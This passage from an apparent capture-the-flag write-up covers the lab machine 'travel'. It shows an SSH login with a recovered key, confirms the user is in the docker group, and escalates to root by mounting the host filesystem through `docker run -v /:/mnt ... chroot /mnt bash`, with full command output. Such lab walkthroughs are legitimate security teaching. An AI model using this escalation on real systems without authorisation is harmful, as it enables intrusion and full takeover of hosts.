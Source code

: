 We can now re-login via ssh and check our groups:

```bash
ssh lynik@10.10.10.189 -i /tmp/lynik.key 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Fri 11 Sep 2020 03:26:34 PM UTC

  System load:                      0.16
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        205
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

Last login: Fri Sep 11 15:20:51 2020 from 10.10.14.2
lynik@travel:~$ id
uid=5000(lynik) gid=117(docker) groups=117(docker),5000(domainusers)
```

We are indeed part of the docker group and can now start with the root-privesc.

### Docker privesc

Let us check if we have any images we can use to mount the server's filesystem and get arbitrary read and write access.

```bash
lynik@travel:~$ docker images
REPOSITORY            TAG                 IMAGE ID            CREATED             SIZE
nginx                 latest              602e111c06b6        4 months ago        127MB
memcached             latest              ac4488374c89        4 months ago        82.3MB
blog                  latest              4225bf7c5157        5 months ago        981MB
ubuntu                18.04               4e5021d210f6        5 months ago        64.2MB
jwilder/nginx-proxy   alpine              a7a1c0b44c8a        7 months ago        54.6MB
osixia/openldap       latest              4c780dfa5f5e        11 months ago       275MB
```

We can use any of these images. I am going to use the first one.

```bash
lynik@travel:~$ docker run -v /:/mnt --rm -it nginx chroot /mnt bash
root@a33082903282:/# cd root
root@a33082903282:~# ls -alh
total 48K
drwx------  8 root root 4.0K May 15 11:47 .
drwxr-xr-x 21 root root 4.0K Sep 11 15:20 ..
lrwxrwxrwx  1 root root    9 Apr 29 08:04 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K May 15 11:47 .cache
drwx------  3 root root 4.0K Apr 28 16:10 .config
drwxr-xr-x  3 root root 4.0K May  7 08:10 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Apr 23 19:55 .selected_editor
drwx------  2 root root 4.0K Apr 24 21:31 .ssh
drwx------  2 root root 4.0K Apr 28 19:51 bin
-r--------  1 root root   33 Sep 11 14:43 root.txt
drwxr-xr-x  3 root root 4.0K Apr 23 15:49 snap
```
